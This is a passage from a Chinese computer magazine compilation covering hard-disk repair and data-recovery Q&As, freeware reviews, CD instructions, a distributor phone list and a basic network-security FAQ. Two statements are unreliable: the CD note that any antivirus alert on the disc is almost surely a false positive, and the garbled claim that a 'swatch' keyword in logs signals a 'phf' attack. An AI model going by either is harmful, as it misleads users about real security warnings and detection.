Bad Sector Retest 是最后一道关卡，它能反复查找由 Check For Errors 命令标记的坏道，对其周围也仔细搜索。经过这一步，我们可以确保查出所有坏道，这也是成功处理物理坏道的前提。Partition Magic 最强大之处就是其分区能力，在处理硬盘物理坏道时更是起到了关键作用。当使用 Partition Magic 检测到物理坏道时，可以将它们全部划分到一个独立的新分区。为了安全起见，大家千万不能心慈手软，一定要将所有的物理坏道都加入分区。最后还要隐藏该分区，这一步通过 Advance 下 Hide Partition 命令可实现。完成这些处理后，硬盘应该还能继续服役。这种方法对于物理坏道不多的硬盘效果不错，但在坏道已经严重扩散时，就没有必要这样操作了。此外，即便成功隔离坏道，也要做好数据备份工作，硬盘很可能再次出现故障。

#### 3. 零磁道损坏的处理

问：我的硬盘零磁道损坏了，请问有什么方法可以挽救吗？

答：对于磁盘而言，零磁道是最为关键的地方，因为硬盘的分区表信息放在其中。一旦零磁道损坏，硬盘将无法启动。其实零磁道损坏只是物理坏道的特殊情况，所不同的只是损坏之处十分敏感。对此，我们可以采取修改硬盘分区表的存储位置，然后再屏蔽坏道的方法来处理。DOS 下经典的 PCTOOLS 9.0(DE.EXE)以及 NU 8.0(NDD.EXE) 都可以实现这一功能，但是它们都无法支持 FAT32 与 NTFS 分区，推荐大家使用 DiskGenius。在 DiskGenius 的主界面中，按下 F11 功能键，会弹出一个修改菜单。对于引导标志和系统标志，大家千万不要修改，这是确认分区类型的关键。我们着重“修理”的是起始柱面、起始磁头和起始扇区。一般而言，在原有数值的基础上加1即可。如果不幸修改后的地方仍然是坏道，那么可以再加一，循序渐进，将容量损失限制在最小程度内。随后对硬盘进行重新分区并格式化，将系统文件拷贝进去即可。一般完成以上几步后，硬盘就能够正常启动了，随后还要注意屏蔽物理坏道。

#### 4. 主引导区的恢复

问：因为安装的软件中带有木马，我的硬盘主引导区可能被破坏了，应该如何恢复？

答：通常情况下，主引导记录和分区表被损坏后，硬盘内的数据虽然无法访问，但是也并没有丢失。我们可以利用软件修复损坏的主引导区，就可以找到丢失的数据。目前很多恶意程序都喜欢攻击硬盘的主引导区与分区表，有时磁盘分区软件的误操作以及中途断电也会造成这类故障。硬盘主引导区表被意外修改是一种很典型的软件故障。大家可以先用软盘启动系统。然后键入“C：”，看看能否读取 C 盘的内容。根据主引导区破坏程度的不同，C 盘能否被读取也不能确定。如果 C 盘中的数据可以读出，只要使用 Fdisk/mbr 命令进行无条件重写主引导区即可，一般都能成功，而且可以保留原有数据。值得注意的是，运行 Fdisk/mbr 命令时系统是没有任何反应的，但实际上它已经起了作用，因为硬盘分区表的数据量很小，写入时间几乎让人感觉不到。

当然，即便不能读取 C 盘，我们也可以使用 Fdisk/mbr 命令，然后用 Fdisk 或者其它软件进行分区格式化。Fdisk/mbr 的作用十分明显，也能对付一些主引导区病毒，大家一定要好好利用，这堪称是对付硬盘在 BIOS 中可以识别而 DOS 下无法操作的第一件工具。很多恶性病毒都是从硬盘分区表下手，症状为系统启动时显示“Disk boot failure，Insert system disk and press enter”，告诉你找不到启动分区硬盘或者硬盘上没有启动文件。除了 Fdisk 的这一隐藏参数，大家还可以使用 Fixmbr 这款 DOS 下的小工具，下载地址为 http://download.pchome.net/utility/antivirus/av98/6967.html。在DOS下直接执行该文件，系统会自动检查分区表结构。在用户确认之后，它就会开始自动修复。与Fdisk/mbr命令相比，Fixmbr具有更好的效果，很多Fdisk/mbr命令不能解决的主引导区问题都能被它轻松搞定。

#### 5. 分区表的修复

问：我使用笔记本的系统恢复盘，但是刚刚执行就感觉不对，因此马上强制关机。现在，硬盘所有的分区都看不见了，这可怎么办？

答：这是典型的分区表破坏，推荐使用由国人编写的DiskGenius软件来修复。该软件可以直接在纯DOS环境下运行，而且采用直观的中文界面，对于英文不好的用户而言是最佳选择。进入DiskGenius主界面，按下F10就能自动恢复硬盘分区表，这一招非常有效。DiskGenius将首先搜索0柱面0磁头从2扇区开始的隐含扇区，寻找被病毒挪动过的分区表。然后搜索每个磁头的第一个扇区，其中搜索过程可以采用“自动”与“交互”两种方式进行。自动方式保留发现的每一个分区，适用于大多数情况下。通过以上对主引导区以及分区表的修复，就可以让一个遭受严重破坏的硬盘得以在Windows下正确看到分区。

#### 6. 突破逻辑锁的限制

问：我的电脑硬盘被病毒感染，从软盘和光驱以及U盘也不能启动。我试着更换一个主板也没用，这是不是硬盘损坏了？

答：这很可能是“硬盘逻辑锁”。在解决这一问题前，我们很有必要了解一下硬盘逻辑锁的原理。计算机在引导系统时将搜索所有逻辑盘的顺序，首先要找主引导扇区的分区表信息，位于硬盘0头0柱面的第一个扇区的OBEH地址开始处，当分区信息开始的地方为80H时表示是主引导分区，其他的为扩展分区，主引导分区被定义为逻辑盘C盘。然后查找扩展分区的逻辑盘，被定义为D盘，以此类推找到E，F，G…“逻辑锁”就是在此下手，修改正常主引导分区记录，将扩展分区的第一个逻辑盘指向本身。DOS在启动时查找到第一个逻辑盘后，查找下个逻辑盘总是找到是自己，这样一来就形成了死循环，所以使用软驱、光驱、双硬盘都不能正常启动。实际上“逻辑锁”只是利用了DOS在启动时的一个小小缺陷，便令不少高手都束手无策。知道了“逻辑锁”的“上锁”原理，要解锁就比较容易了。针对“硬盘逻辑锁”，我们推荐三种解决方案，它们各有优点，可以根据实际情况来选择。

- （1）硬盘热插拔
只要让BIOS认为系统中没有硬盘，启动时就可以轻松地跳过逻辑锁的障碍。要实现这一点并不困难，只需在开机时将硬盘拔下即可，这也是最简单的方法。当系统成功启动之后，使用A盘来引导。下面一步是关键，在带电的情况下插上硬盘。大家一定要小心，特别是在连接数据线与电源插头时，动作要快、准、轻，千万不能往复插拔。随后，系统会自动识别出硬盘，而且可以正常使用。但是重新启动之后，逻辑锁依然会作怪，因为还没有从根本上解决问题。当然，我们不可能一直采用这种方法来使用硬盘。对此，大家所要做的是重新写入硬盘主引导区或者分区表。一般可以用Fdisk/mbr搞定，如果还是不行，可以尝试上面推荐的DiskGenius，通过F10功能键即可自动修复。从理论上来说，热插拔硬盘并不会造成任何问题，但是这毕竟是带电操作，因此危险性也是不能排除的。使用硬盘热插拔方案的好处是能以最短时间解决问题，而且基本上不会丢失硬盘中的数据。

- （2）DM大法
要让BIOS认为系统中没有硬盘，通过BIOS设置也能办到。在开机时按下DEL键（个别品牌机主板可能使用F1功能键），然后将所有的IDE通道设置为NONE即可。我们可以利用软盘或者光盘启动系统，此时肯定可以启动，因为系统根本就没有硬盘。接下来要用到经典的DM硬盘管理软件，它最大的特色是可以不依赖于主板BIOS来识别硬盘，可以用其进行分区格式化，就能完全解决问题，而且万无一失，简单方便。DM软件的操作非常简单，其分区过程比Fdisk更智能，因此这也是最为简单的逻辑锁解法。从实际效果来看，DM大法相当安全，几乎不会失手，其唯一的缺点便是不能保住硬盘中的数据，因此不适合数据恢复。

- （3）UltraEdit大法
如果想要保住硬盘中的数据，而且不愿冒热插拔硬盘的风险，还需要动手来实践一下，这可不是一件简单的事情。首先，使用二进制编辑工具，如UltraEdit等分析启动软盘中的IO.SYS文件（注意，一定要是Win98或者DOS6.22的启动盘，使用WinME、2K、XP的不行）。由于IO.SYS是隐藏文件，因此需要在UltraEdit的“打开”对话框中直接输入其全名“IO.SYS”。我们要查找的是该文件的第一个“55AA”字符串，找到后修改为任意数值即可，接下来利用这张软盘就可以带着中了逻辑锁的硬盘启动了。不过，由于硬盘的分区表遭到破坏，因此还需要使用上述的分区表恢复方法进行处理。

#### 7. 替换硬盘电路板找回数据

问：我的硬盘现在开机后无法被识别，甚至听不到常规的硬盘噪音。我的数据都保存在上面，请问有什么方法可以找回数据吗？

答：电路板一旦出现问题，硬盘将无法识别，有时候甚至一开机就断电保护。面对这种情况，用户应该清醒地认识到，最关键的盘体内部以及数据都没有损坏，原则上说只要找到相同型号硬盘的电路板替换一下即可。先要拆下硬盘上的电路板，一般电路板都由几个六角螺丝固定，只要买一把专用的六角螺丝刀便可以轻松搞定。在卸下螺丝之后，小心将指令控制线接口拔下，然后更换上新的电路板。如果硬盘只有电路板损坏，此时主板BIOS可以立即识别硬盘，存储的数据也并不会丢失。另外要注意的是，有时候同一个型号的硬盘可能在电路板上稍有差异，导致更换电路板后无法被BIOS识别，但几乎有一大半都能通过电路板带电交换来解决，这一招的确非常管用。所谓热交换电路板就是将故障硬盘作为第二硬盘带入系统，然后在带电情况下将电路板更换。在这一过程中，操作动作必须简单干脆，千万不能在连接电路板时犹豫，否则很容易损坏电路板。热更换电路板之所以有效，是因为绕过了一些控制芯片的自检过程，对于数据恢复应用非常好用。

#### 8. 修复有故障的电路板

问：我的老硬盘保存了好几年收集的资料，但是现在电路板损坏了，请问可以修好吗？

答：硬盘电路板的结构比较复杂，甚至像电脑主机那样有主芯片和内存等等，因此其故障率自然不低。一般情况下，硬盘电路板元器件或部件的输入引脚和输出引脚，对地或对电源都有一定的内阻，用普通万用表测量，很多情况下都会出现正向电阻小，反向电阻大。一般正向阻值在几十欧姆至100欧姆左右，而反向电阻多在数百欧姆以上。但正向电阻决不会等于0或接近0，反向电阻也不会无穷大，否则就应怀疑管脚是否有短路或开路的情况。当断定硬盘子系统的故障是在某一板卡或几块芯片时，可用电阻法进行查找。一旦发现硬盘电路板中某一块芯片损坏，就可以将其更换。对于普通用户，想要实现芯片级维修不太现实，甚至连更换芯片也有很大的难度，因为普通芯片也需要通过电烙铁以及热风焊台等设备进行操作。至于具体的芯片更换方法，其操作难度在于手法应用，在此就不多赘述了。

#### 9. 添加 G-list 来修复坏道硬盘

问：我的硬盘坏道比较严重，使用屏蔽的方法已经不行了，是不是还有别的修复方法？

答：其实硬盘有 G-list 表来应对不断增长的坏道，但是 G-list 表很容易出现问题，硬盘会读写困难，或是提示存在大量坏道，继而无法使用。对于这类故障，建议大家先不要简单地判断为“物理坏道过多而无法修复”，而是应当先尝试将部分坏道信息添加到 G-list。HDDSPEED 与 THDD 是很值得推荐的 G-list 修复软件。
从名称可以看出来，HDDSPEED 是一款硬盘速度测试软件，其附带的修复功能非常强大。HDDSPEED 只能在纯 DOS 模式下运行，大家可以将其复制到启动软盘中。HDDSPEED 运行后首先检测硬盘，建议大家执行“Diagnostic”菜单下的“Media verify/repair”选项（快捷键为Alt+m），在弹出的“Perform media test”窗口中自行设定检测的起始点、终点及检测的次数，同时按“R”键将“Try to repair/relocate round defects”一项设为可用，HDD SPEED 在检测到坏道后会尝试对其进行修复。HDDSPEED 的使用方法非常简单，与大家非常熟悉的 SCANDISK 类似，只不过具备将一些坏道信息自动添加到 G-list 列表的功能，整体效果非常出色。很多被 SCANDISK 识别为坏道且无法正常使用的硬盘，都可以通过这种方法来修复。
THDD 是一款与 HDDSPEED 功能大致相同的 G-list 修复软件，但是其修复效果更加出色。THDD 需要将主程序复制到一张软盘上，以软盘引导到纯 DOS 模式下运行。THDD 的界面相当简洁，首先需要选择“SURFACE TEST”对硬盘进行扫描。检测完成后回到主菜单，选择“VIEW DEFECT LIST”（查看缺陷列表），在弹出窗口中可看到扫描到的坏道列表。按“R”键后开始修复坏道，在结果显示中“Paired”表示已经将坏道加入到 G-list 中，而“Not repaired”则表示 G-list 已满，坏道未能修复。对于坏道不多的硬盘来说，THDD 的修复效果十分理想。

#### 10. 硬盘断针怎么办

问：我在拔数据线时不小心把 IDE 硬盘的接口针给弄断了，这个硬盘还能使用吗？

答：由于操作不当而造成的硬盘断针现象十分可怕。硬盘的识别完全依靠 BIOS，因此不可能像打印机断针那样使用软件来解决。不过，并非所有的硬盘断针现象都需要维修，常用硬盘的 IDE 接口是 40 针的，针脚号码从1~40排列，40 针中有 6 根接地线，断一两根不影响使用，但是以后插拔数据线要特别小心。如果弄断的不是接地线，必须使用焊接的方法进行弥补。焊接过程中还得注意不能连接到其它针脚，否则就会出现无法传输数据或者校验错误的现象。

#### 11. 文件误操作后的修复

问：因为误操作，我把原来几个重要的目录都删除了，这些数据还能找回吗？

答：由于误操作或是病毒攻击等原因而造成的数据丢失，通过一些软件完全可以恢复。常见的数据恢复软件有 Easy Recovery、Final Data、RecoverNT 等等，推荐大家使用 Easy Recovery 或 Final Data。由于 Easy Recovery 和 Final Data 在针对分区表等故障时，有一套独特的处理方法，可以自动使用内定的方式来扫描文件，因此结合起来使用往往可以带来惊喜，并不能说哪一款就是最好的。EasyRecovery 使用 Ontrack 公司复杂的模式识别技术，找回分布在硬盘上不同地方的文件碎块，并根据统计信息对这些文件碎块进行重整。接着，EasyRecovery 在内存中建立一个虚拟的文件系统，并列出所有的文件和目录。哪怕整个分区都不可见、或者硬盘上也只有非常少的分区维护信息，EasyRecovery 仍然可以高质量地找回文件。用 EasyRecovery 找回数据、文件的前提，是硬盘中还保留有文件的信息和数据块。在删除文件、格式化硬盘等操作后，如果在对应分区内写入大量新信息，这些需要恢复的数据就很有可能被覆盖了！此时，无论如何都找不回想要的数据。所以，为了提高数据的修复率，不要再对需要修复的分区或硬盘进行新的读写操作。如果要修复的分区恰恰是系统启动分区，就要马上退出系统，用另外一个硬盘来启动系统（即采用双硬盘结构）。
无论是 EasyRecovery 还是 Final Data，其基本使用方法都非常简单，大致可以分为三个步骤：选择扫描范围、指定扫描类型以及筛选数据。以 EasyRecovery 为例，进入界面后首先在左边的列表中选择“数据恢复”工作模式，此时软件会提供更多的选项以供选择。这里一般我们选择使用“高级选项自定义数据恢复功能”，因为它的功能最强，包括了“查找并恢复已删除的文件”和“从一个已格式化的卷中恢复文件”以及“不依赖任何文件系统结构信息进行恢复”三个功能选项。选定“高级选项自定义数据恢复功能”，系统要求输入扫描所针对的分区。EasyRecovery 会让用户自己选定文件系统类型，如果无法确定是 FAT32 还是 NTFS，可以直接选择为 RAW 模式，此时将对整个分区的扇区逐个进行扫描。根据磁盘系统性能以及数据量，扫描会占用比较长的一段时间。扫描结束后，EasyRecovery 将列出丢失文件的列表，并且都放在LOSTFILE目录下，在前面的小方框内打上勾，恢复所有找到的文件。也可以用鼠标左键按一下LOSTFILE前面的 + 号显示列表，从中选取要恢复的文件，单击“下一步”并按照提示选择文件的存放路径即可。

#### 12. RAID恢复基础分析

问：我用SCSI RAID组建的服务器磁盘阵列突然无法启动，挂单盘时发现是动态卷，无法读取数据，很可能是RAID信息被破坏了，还能恢复吗？

答：不少用户都为RAID出现问题感到奇怪。以RAID5为例，其安全性应当是很高的。但是除了RAID控制器本身可能损坏外，用户在使用时发现一个硬盘掉线而没有及时处理也是一个关键因素。部分所谓的特殊RAID5（如RAID5 ADG、RAID5EE等等），其实并不能像理论上那样支持2块硬盘掉线。由于RAID的特殊性，其分区表并非独立保存在某一个硬盘上，因此需使用专门软件独立处理。鉴于服务器数据一般都意义重大，建议先使用Runtime‘s DiskExplorer制作镜像盘，该软件分为NTFS版本和FAT版本。制作镜像甚至比使用Ghost软件还要简明，只要直接选择需要操作的磁盘，指定镜像文件的保存路径即可。
得到磁盘镜像之后，源盘就可以保存在安全的地方，所有的数据恢复操作直接在镜像盘中处理。恢复RAID数据的软件有不少，推荐由Runtime‘s开发的RAID Reconstructor。该软件在进入主界面时，需要设定RAID类型与磁盘数量，然后RAID Reconstructor会分析参数并把分散的数据拷贝出来。这个过程说起来很轻松，具体执行时可并不简单。目前RAID Reconstructor的分析方法并非是业界顶尖，譬如国内的飞客数据恢复中心就已经开发了更好的分析工具，而且不存在最多只能处理14个硬盘的限制。一般而言，RAID Reconstructor只能对付简单故障的中小型RAID，但是作为送到数据恢复中心之前的一种尝试，还是值得推荐的。只是用户一定要针对镜像文件操作，否则很可能破坏数据。

## 免费软件千里马——功能实用的系统维护工具

- 风行懒人工具箱 V1.2.5
软件下载地址：http://d.thec.cn/QdRageSoft
软件亮点：是一款免费超级百宝箱，提供的功能很多，包括快速启动、系统管理、娱乐休闲、综合知识、程序开发、财务助手、日常办公、Windows多桌面、Windows设置、个人助理等，每个小分类下面又包括了许许多多的常见服务，真可谓“百宝俱全”。
软件使用：软件解压后可直接运行，但不会弹出主窗口，而是在状态栏上显示运行图标。在状态栏图标上单击鼠标右键，即可弹出软件的所有功能菜单。
总的来看，这款软件实用方便，运行时可以最小化到系统状态栏，不会影响到正常工作，并且在需要时可以随时调用。在具体功能上，无论是工作还是娱乐，都处处为用户着想，而且完全免费，是一款不可多得的工具软件。

- 电脑万能专家 V2006 6.35
软件亮点：防御专家强大，包括木马分析专家、电脑防删专家、IE防改专家、QQ聊天专家、电脑加锁专家、合并粉碎专家、网吧计费专家、开机还原专家、QQ防盗专家、系统优化专家、虚拟桌面专家、定时锁定专家、垃圾清理专家、窗体修改专家、文件夹加锁专家、网页特效专家、热键专家、个人网页服务器专家、网络在线电视专家等18套专家级软件，以及600余种管理方案！
软件使用：软件安装后，通过其主界面就会对其功能赞叹不已！单击其中的功能按钮后，又会弹出分类更细的功能菜单，各项功能按钮都表述很清楚，因此在操作上也很智能化。例如，“电脑防删专家”采用最新VXD技术与Windows内核句柄相结合的监控方式，可以在暗处监视新建、重命名、移动、复制、删除等文件操作，并会生成一份文件操作监控记录，我们可以根据该记录设定多种防删除、防复制、防新建、防改名等防护方案（关机或锁定计算机），从而保护我们的文件不受“外来风雨”的侵袭。比如，“QQ密码防盗专家”则是一款全方位的QQ防盗、防扰及优化工具。我们只需在“主窗体”选项卡中选中相应选项前的复选框，或是按下“清空”按钮，就可以设置QQ变动标题、关闭QQ中的一些广告窗口甚至拦截网页中的广告窗口。
另外，家庭用户还可以使用“管理方案”，它可以让用户实时监控并禁止用户删除任何文件及目录，禁止用户使用“拨号连接”上网、使用IE下载软件，是一个很棒的网络安全管理工具。
总的来看，软件功能强大，运行速度非常快，在具体设置上也十分人性化。更值得推荐的是软件不存在任何使用限制，并可进行实时升级。

- 金牌电脑工具箱 V3.5
软件下载地址：http://www.skycn.com/soft/12465.html
软件亮点：可以轻松实现文件粉碎、文件分割、文件合并、文件加解密、图像格式转换、简繁体转换以及注册表修复等功能。
软件使用：下载后直接双击压缩文件中的执行文件即可启动。软件提供的功能很齐全。其中，文件分割和文件合并功能往往一起使用，“文件分割”选项可以将一个文件拆分为多个小容量的文件存储，然后再在移动目的地合并刚才拆分的文件即可。
总的来看，软件体积小而且附带功能多，操作过程非常简单，适合小范围内的系统应用操作。

通过上面的百宝箱，用户已经体会到这些实用软件的超值奉献了吧！实际使用中，我们还可以根据自己的实际使用情况，选择一到两款优化组合。当然，我们可能还会有一些其他的功能需求，比如修复多媒体数据、控制USB接口等，也可以通过一些优秀的软件来完成。

## 《电脑爱好者合订本》光盘粘贴页

### 光盘使用说明

光盘放入光驱后，光盘程序将自动运行，播放片头动画。动画播放结束后，进入程序主界面。如果想跳过动画，可以在画面中任意处单击鼠标或者单击右下角的“跳过”即可。
如果不想让光盘程序直接运行，可以在放入光盘的同时按Shift键不放，以跳过动画的播放。在资源管理器中可以直接浏览光盘，也可以双击Start.exe文件重新运行光盘程序。
在主界面上点击相应的主题按钮即可进入下一级界面或调用其他程序。
在主界面上点击右下角的声音按钮可关闭或打开背景音乐。点击退出按钮可关闭光盘程序。
在下一级界面中，都会有一个返回按钮，点击即可返回到上一级界面中。
光盘中的PDF格式电子书，需要预先安装好Acrobat Reader软件，否则无法正常使用。如果您的系统中没有安装该阅读器，可安装本光盘中所带的Acrobat Reader。光盘中的视频教程，需要使用Windows自带的媒体播放器播放，如果您的操作系统比较老，可以安装最新版的媒体播放器。
光盘中的文件，都经过多种防病毒软件检查和查杀，保证读者使用的绝对安全，但因为杀毒软件很多，版本也复杂，某些杀毒软件误报率也很高，所以如果杀毒软件报告有病毒，基本上可以肯定为误报。

## 《电脑爱好者》合订本省市级经销商联系电话(合订本配套光盘如有破损，可联系以下代理调换)

| 地区 | 客户名称 | 联系电话 |
|---|---|---|
| 广东 | 广州新世界书店 | 020-34292249 |
| 广东 | 广东省新华书店 | 020-87058605 |
| 广东 | 深圳人民邮电出版社深圳图书经销部 | 0755-82450701 |
| 广西 | 南宁市广图书店 | 0771-2621318 |
| 广西 | 南宁市南国书店 | 0771-3836906 |
| 云南 | 昆明宇智图书有限公司 | 0871-4168505 |
| 福建 | 福建省新华图书批发公司 | 0591-87148781 |
| 福建 | 漳州市文汇书店 | 0596-2919189 |
| 福建 | 泉州 | 0595-22371968 |
| 湖南 | 长沙市新书源图书发行有限公司 | 0731-4416580 |
| 贵州 | 贵阳鑫汇书刊店 | 0851-5984895 |
| 湖北 | 武汉北斗星书业有限公司 | 027-87215220 |
| 河南 | 河南郑州图书城科技书店 | 0371-67647390 |
| 河南 | 河南省邮电图书报刊音像公司 | 0371-68203856 |
| 浙江 | 杭州东新图书有限公司 | 0571-88256019 |
| 浙江 | 浙江省新华书店 | 0571-88176573 |
| 浙江 | 温州新闻发展总公司书刊发行分公司 | 0577-81707628 |
| 安徽 | 合肥弘艺书店 | 0551-2648285 |
| 安徽 | 蚌埠瑞云书社 | 0552-3028542 |
| 江西 | 西湖时新书店 | 0791-8592321 |
| 江西 | 江西省新华书店图书音像批销中心 | 0791-8166010 |
| 黑龙江 | 哈尔滨 | 0451-88342321 |
| 黑龙江 | 达华电脑科技书店 | 0452-2408813 |
| 四川 | 成都长江图书发行社 | 028-86666489 |
| 重庆 | 重庆渝海书店 | 023-67051823 |
| 西安 | 西安百花报刊发行有限公司 | 029-87450353 |
| 西安 | 西安聚源文化传播有限公司 | 029-82100544 |
| 乌鲁木齐 | 乌鲁木齐新华顺电子信息有限公司 | 0991-4526709 |
| 乌鲁木齐 | 乌鲁木齐市三声石电脑书林 | 0991-3833687 |
| 银川 | 银川市协力书店 | 0951-6093532 |
| 太原 | 太原思好达报刊发行有限公司 | 0351-4072655 |
| 上海 | 上海市华东书局 | 021-63780159 |
| 济南 | 山东前沿文化传播有限公司 | 0531-82055155 |
| 济南 | 济南青少年读物发行部 | 0531-87919678 |
| 济南 | 济南历下花园路书店 | 0531-86955586 |
| 青海 | 青海省南海书报有限公司 | 0971-8587468 |
| 兰州 | 三友书社 | 0931-8518072 |
| 兰州 | 兰州东盛文化 | 0931-8514919 |
| 兰州 | 兰州文达 | 0931-8519277 |
| 长春 | 华艺书店 | 0431-2777386 |
| 长春 | 大华图书发行有限责任公司 | 0431-2729034 |
| 沈阳 | 铁路书报刊有限公司 | 024-23910600 |
| 沈阳 | 沈阳大松科技图书公司 | 024-23903518 |
| 沈阳 | 辽宁华储资讯科技有限公司 | 024-83892148 |
| 石家庄 | 石家庄市康迈书局 | 0311-83029157 |
| 石家庄 | 石家庄市桥西区聚贤书社 | 0311-83855608 |
| 天津 | 新兴书店 | 022-27694099 |
| 天津 | 天津市雅尔美图书发行中心 | 022-23683995 |
| 北京 | 北京金麦山图书发行有限责任公司 | 65302520 |
| 北京 | 海淀图书城 | 82873904 |
| 北京 | 北京世纪书缘图书有限公司 | 85980288 |
| 北京 | 北京情文图书有限公司 | 65934375 |

(读者如发现本地有本书盗版，也可打以上电话举报)

## 网络安全指导手册

### 一、网络安全基础知识篇

#### 1.1 什么是网络安全?

答：网络安全包含的范围比较广，一般是指网络系统的硬件、软件及其系统中的数据受到保护，不因偶然的或者恶意的原因而遭到破坏、更改、泄露，系统可以连续、可靠、正常地运行，网络服务不被中断。

#### 1.2 什么是计算机病毒? 如何给计算机病毒命名?

答：计算机病毒是指编制者在计算机程序中插入的能够破坏计算机功能或者破坏数据，影响计算机使用并且可以自我复制的一组计算机指令或者程序代码。国际上对病毒命名的一般惯例为“前缀 + 病毒名 + 后缀”。前缀表示该病毒发作的操作平台或者病毒的类型，而DOS下的病毒一般是没有前缀的；病毒名为该病毒的名称及其家族；后缀一般可以不要的，只是以此区别在该病毒家族中各病毒的不同，可以为字母，或者为数字以说明此病毒的大小。例如：“WM.Cap.A”，A表示在Cap病毒家族中的一个变种，WM表示该病毒是一个Word宏病毒。

#### 1.3 什么是特洛伊木马?

答：特洛伊木马是一种带有恶意性质的远程控制软件，它一般分为客户端和服务器端。客户端就是本地使用的各种命令的控制台，服务器端则是要给别人运行，只有运行过服务器端的计算机才能够完全受控，木马不会像病毒那样去感染文件。黑客的特洛伊木马程序事先已经以某种方式潜入用户的电脑，并在适当的时候激活，潜伏在后台监视系统的运行，它能实现拷贝、删除文件、发电子邮件、甚至格式化硬盘等功能。

#### 1.4 什么是“网络钓鱼”式攻击?

答：“网络钓鱼”即Phishing，Phishing来源于两个词(Phreaking + Fishing = Phishing)，其中：“Phreaking”的意思是找寻在电话系统内漏洞，不付电话费用；“Fishing”是使用鱼饵吸引猎物，也就是通常所讲的钓鱼。Phishing的目标多为著名金融机构、银行和在线交易的网站。攻击者通常利用电子邮件引诱用户到伪装网站，以套取用户的个人资料，如信用卡号码等。

#### 1.5 什么是防火墙?

答：防火墙是指设置在不同网络或网络安全域之间的一系列部件的组合。它是不同网络或网络安全域之间信息的唯一出入口，能根据安全政策控制（允许、拒绝、监测）出入网络的信息流，且本身具有较强的抗攻击能力。它是提供信息安全服务，实现网络和信息安全的基础设施。

#### 1.6 什么是“后门”?

答：“后门”是一种绕过安全性控制而获取对程序或系统访问权的方法。当一个训练有素的程序员设计一个功能较复杂的软件时，都习惯于先将整个软件分割为若干模块，然后再对各模块单独设计、调试，而后门则是一个模块的秘密入口。在程序开发期间，后门的存在是为了便于测试、更改和增强模块的功能。但是，由于程序员的疏忽，或者故意将其留在程序中以便日后可以对此程序进行隐蔽的访问，方便测试或维护已完成的程序等种种原因，实际上并未去掉。这样，后门就可能被程序的作者所秘密使用，也可能被少数别有用心的人用穷举搜索法发现利用。

#### 1.7 什么是网络监听?

答：网络监听工具本来是提供给管理员的一种监视网络状态、数据流动情况以及网络上传输的信息的管理工具。当信息以明文的形式在网络上传输时，将网络接口设置在监听模式，便可以源源不断地截获网上传输的信息。网络监听可以在网上的任何一个位置实施，如局域网中的一台主机、网关上或远程网的调制解调器之间等。当黑客成功登录一台网络上的主机并取得这台主机的超级用户权限之后，若想尝试登录其他主机，那么使用网络监听将是最快捷有效的方法，它常常能轻易获得用其他方法很难获得的信息。

#### 1.8 什么是拒绝服务攻击?

答：拒绝服务攻击也叫分布式“D.O.S”攻击(Distributed Denial Of Service)。拒绝服务就是用超出被攻击目标处理能力的海量数据包消耗可用系统及带宽资源，致使网络服务瘫痪的一种攻击手段。当攻击开始时候，攻击者首先通过比较常规的黑客手段侵入并控制某个网站，随后在该网站的服务器上安装并启动一个可由攻击者发出的特殊指令来进行控制的进程。当攻击者下达指令后，这些进程就开始对目标主机发起攻击。由于这种方式集中了成百上千台服务器的带宽能力，所以可能会导致服务器瘫痪。

#### 1.9 什么是ARP攻击?

答：ARP协议的基本功能就是通过目标设备的IP地址，查询目标设备的MAC地址，以保证通信的进行。基于ARP协议的这一工作特性，黑客会向对方计算机不断发送伪造的ARP请求数据包，导致目标设备的ARP缓存被错误信息填满，从而无法正常通信，或者将数据包发送到攻击者指定的计算机上。

发送有欺诈性质的 ARP 数据包，数据包内包含有与当前设备重复的 Mac 地址，使对方在回应报文时，由于简单的地址重复错误而导致不能进行正常的网络通信。因为这种攻击是利用 ARP 请求报文进行“欺骗”的，所以防火墙会误以为是正常的请求数据包而不予拦截，所以普通的防火墙很难抵挡这种攻击。

#### 1.10 什么是欺骗攻击?它有哪些攻击方式?

答：网络欺骗的技术主要有：HONEYPOT 和分布式 HONEYPOT、欺骗空间技术等。主要方式有 IP 欺骗、ARP 欺骗、DNS 欺骗、Web 欺骗、电子邮件欺骗、源路由欺骗（通过指定路由，以假冒身份与其他主机进行合法通信或发送假报文，使受攻击主机出现错误动作）、地址欺骗（包括伪造源地址和伪造中间站点）等。

#### 1.11 什么是入侵检测技术?

答：入侵检测（Intrusion Detection），顾名思义，便是对入侵行为的发觉。很多大型网络主机都部署了入侵检测系统，它通过对计算机网络或计算机系统中的若干关键点收集信息并对其进行分析，从而动态地掌握网络安全状况。进行入侵检测的软件与硬件的组合便是入侵检测系统（Intrusion Detection System，简称 IDS）。入侵检测系统的主要作用是对非正常网络行为或事件进行检测，特别是对入侵行为的检测。
入侵检测系统分为两种：一种基于主机（HIDS），另一种基于网络（NIDS）。NIDS 探测器检测网段中所有的数据包，对包含攻击特征或可疑的异常行为做出响应。传统意义上，NIDS 是具有 NIDS 特征过滤器的混杂模式包嗅探器，今天，NIDS 具有更高的智能性，能够进行协议分析和状态保持，并具有良好的网络性能。

#### 1.12 入侵检测系统可以分为哪几类?

答：根据监测对象不同，入侵检测系统可以分为以下几类：

-   (1) NIDS。NIDS 是 Network Intrusion Detection System 的缩写，即网络入侵检测系统，主要用于检测 Hacker 或 Cracker 通过网络进行的入侵行为。入侵检测是防火墙的合理补充，帮助系统对付网络攻击，扩展系统管理员的安全管理能力（包括安全审计、监视、进攻识别和响应），提高信息安全基础结构的完整性。它从计算机网络系统中的若干关键点收集信息，并分析这些信息，检查网络中是否有违反安全策略的行为和遭到袭击的迹象。
-   (2) SIV。SIV 是 System Integrity Verifiers 的缩写，即系统完整性检测，主要用于监视系统文件或者 Windows 注册表等重要信息是否被修改，以堵上攻击者日后来访的后门。SIV 更多时候是以工具软件的形式出现，比如著名的“Tripwire”，它可以检测到重要系统组件的变换情况，但并不产生实时的报警信息。
-   (3) LFM。LFM 是 log file monitors 的缩写，即日志文件监测器，主要用于监测网络服务所产生的日志文件。LFM 通过检测日志文件内容并与关键字进行匹配的方式判断入侵行为，例如，对于 HTTP 服务器的日志文件，只要搜索“swatch”关键字，就可以判断出是否有“phf”攻击。
-   (4) HoneyPots。蜜罐系统，也就是诱骗系统，它是一个包含漏洞的系统，通过模拟一个或多个易受攻击的主机，给黑客提供一个容易攻击的目标。由于蜜罐没有其他任务需要完成，因此所有连接的尝试都应被视为是可疑的。蜜罐的另一个用途是拖延攻击者对其真正目标的攻击，让攻击者在蜜罐上浪费时间。与此同时，最初的攻击目标受到了保护，真正有价值的内容将不受侵犯。

#### 1.13 入侵者进入系统的方式有哪些?

